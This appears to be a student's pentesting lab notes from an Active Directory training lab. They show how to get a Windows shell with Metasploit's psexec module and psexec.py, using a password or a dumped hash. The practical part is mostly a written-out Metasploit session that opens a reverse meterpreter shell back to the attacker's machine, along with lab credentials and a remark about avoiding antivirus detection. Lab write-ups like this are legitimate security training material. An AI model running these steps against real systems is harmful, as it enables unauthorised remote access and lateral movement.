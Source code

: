 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.0.166
rhosts => 192.168.0.166
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

```shell
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

It is better to choose `Native upload` for the targets if you have failed on `Automatic` 

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445|MARVEL.local as user 'fcastle'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 1 opened (192.168.0.157:4444 -> 192.168.0.166:56193) at 2023-09-16 16:25:05 -0400

meterpreter > 
```

Now we need to do a hash attack so background this session

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

